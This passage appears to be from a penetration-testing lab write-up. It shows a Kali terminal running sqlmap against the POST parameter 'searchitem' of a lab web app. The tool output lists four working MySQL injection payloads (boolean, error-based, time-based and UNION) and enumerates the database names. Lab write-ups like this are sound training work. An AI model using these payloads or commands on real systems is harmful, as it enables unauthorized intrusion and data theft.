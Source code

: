 Then I used it on `sqlmap` to see if it's injectable.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r status.req --batch --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.7#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=b%' AND 3371=3371#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=b%' AND GTID_SUBSET(CONCAT(0x716a707871,(SELECT (ELT(1848=1848,1))),0x716b626b71),1848) AND 'YKZs%'='YKZs

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=b%' AND (SELECT 9489 FROM (SELECT(SLEEP(5)))xmJn) AND 'QQUe%'='QQUe

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=b%' UNION ALL SELECT NULL,CONCAT(0x716a707871,0x7763576855464857754c48576449625057565177614f6943746e77417a7049674e6e77436d446f66,0x716b626b71),NULL,NULL#
---
[13:31:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[13:31:05] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] status
[*] sys

[13:31:05] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local'                                                              

[*] ending @ 13:31:05 /2024-12-25/
```
